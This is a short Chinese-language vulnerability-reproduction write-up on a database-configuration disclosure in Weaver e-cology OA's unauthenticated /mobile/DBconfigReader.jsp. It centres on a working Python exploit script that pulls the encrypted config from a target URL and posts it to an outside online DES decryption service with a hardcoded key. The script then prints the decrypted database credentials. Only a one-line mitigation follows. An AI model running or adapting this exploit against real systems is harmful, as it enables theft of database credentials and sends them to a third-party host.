

# [漏洞复现] 泛微ecology OA数据库配置信息泄露
### 漏洞详情
泛微e-cology OA系统`/mobile/DBconfigReader.jsp`存在未授权访问，通过解密，可直接获取数据库配置信息。

**利用前提**
`/mobile/DBconfigReader.jsp`存在未授权访问。

### 漏洞复现
利用github的exp报错，解密踩坑如下：

1. 乱码，需要用b64加密后用密钥解密

2. `\r\n`，详见参考链接

最终python脚本如下：

```python
import base64
import requests
import ast

def req(url):
	headers =  {
        'Content-Type':'application/x-www-form-urlencoded',
        'User-Agent':'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/63.0.3239.132 Safari/537.36',
        'Accept':'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8',
    }

	r1 = requests.get(url,headers=headers).content
	s = r1.replace('\r\n','')
	res1 = base64.b64encode(s)
	
	postdata = {
		'data':res1,
		'type':'des',
		'arg':'m=ecb_pad=zero_p=1z2x3c4v_o=0_s=gb2312_t=1'
	}
	u = 'http://tool.chacuo.net/cryptdes'
	r2 = requests.post(u,data=postdata,headers=headers).content	
	res2 = ast.literal_eval(r2)
	
	return res2['data']

url = 'http://testurl/mobile/DBconfigReader.jsp'
print req(url)
```

### 防御
禁止访问`/mobile/DBconfigReader.jsp`。

**参考**

https://mp.weixin.qq.com/s/u8GIfMBRZFAN3HANSSSgQA